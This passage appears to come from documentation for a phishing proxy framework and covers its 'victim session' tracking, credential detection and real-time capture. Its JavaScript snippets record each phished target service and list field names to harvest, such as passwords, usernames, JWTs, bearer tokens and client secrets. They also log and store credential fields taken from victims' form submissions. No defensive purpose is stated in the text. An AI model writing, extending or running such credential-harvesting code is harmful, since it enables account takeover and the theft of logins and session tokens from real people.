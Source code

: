 ### 3. **Enhanced Session Management**

Each victim session now includes comprehensive tracking:

```javascript
VICTIM_SESSIONS[cookieName] = {
    // Basic session info
    value: cookieValue,
    cookies: [],
    createdAt: new Date().toISOString(),
    
    // Target service details
    targetService: {
        protocol: phishedURL.protocol,
        hostname: phishedURL.hostname,
        path: phishedURL.pathname,
        port: phishedURL.port,
        host: phishedURL.host
    },
    
    // Enhanced credential tracking
    capturedCredentials: [],
    formSubmissions: [],
    cookieAnalysis: null,
    lastFormData: null,
    lastRequestBody: null,
    requestCount: 0,
    credentialCount: 0
};
```

### 4. **Advanced Credential Detection**

The framework uses multiple detection methods:

```javascript
// Enhanced credential detection
const credentialFields = [
    'password', 'username', 'user', 'pass', 'pwd',
    'login', 'signin', 'auth', 'credential', 'email',
    'mail', 'account', 'accountname', 'userid', 'user_id',
    'secret', 'key', 'hash', 'salt', 'nonce', 'jwt',
    'bearer', 'access', 'refresh', 'id_token', 'code',
    'state', 'redirect_uri', 'client_id', 'client_secret'
];
```

### 5. **Real-time Data Analysis**

The framework provides real-time analysis of captured data:

```javascript
// Real-time credential detection
if (Object.keys(credentialFields).length > 0) {
    console.log(`[CREDENTIALS_FOUND] Session: ${currentSession} - Credential Fields:`, credentialFields);
    
    // Store credentials for later analysis
    VICTIM_SESSIONS[currentSession].capturedCredentials.push({
        timestamp: new Date().toISOString(),
        path: requestPath,
        credentialFields: credentialFields,
        allFields: formData
    });
}
```
